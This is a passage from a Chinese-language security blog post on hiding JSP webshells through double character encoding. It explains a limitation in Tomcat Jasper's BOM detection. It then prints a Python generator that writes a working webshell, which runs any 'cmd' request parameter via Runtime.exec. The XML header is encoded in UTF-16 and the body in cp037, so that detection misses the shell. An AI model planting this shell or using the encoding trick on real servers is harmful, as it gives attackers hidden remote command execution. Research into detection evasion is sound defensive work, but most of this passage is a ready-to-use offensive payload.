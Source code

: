[![5.png](assets/1698894037-2b0ed21b38bada7c84f99a537cbf3158.png)](https://storage.tttang.com/media/attachment/2022/11/23/b76c871e-7e9f-48d0-aba8-7b43596353db.png)  
第三种  
[![9.png](assets/1698894037-f8d91c51b9de0c580ca2ef3acad0886e.png)](https://storage.tttang.com/media/attachment/2022/11/23/4bcf41c8-cad0-45d7-832f-9007e472644d.png)

#### [为什么上面这个有一定局限性现](#toc__4)

实际上如果你认真看了上面的代码你会发现决定具体代码逻辑是否能走到这一步和`isBomPresent`的值密不可分，我们也说到了只有文件前四个字节无法与`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`这个方法中某个编码匹配，之后假定 XML 文挡采用 UTF-8 编码，最终才能保证`isBomPresent`为 false，因此这种利用的局限性在于文件头只能是 utf8 格式才能保证代码逻辑的正确执行

#### [更灵活的双编码 jspwebshell](#toc_jspwebshell)

根据我们前面的分析，下面这种方式实现双编码会更灵活，可以更多样地选择双编码间的组合

这里简单写个 python 生成一个即可作为演示

```bash
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>'''

with open("test.jsp","wb") as f:
    f.write(a0.encode("utf-16"))
    f.write(a1.encode("cp037"))
```
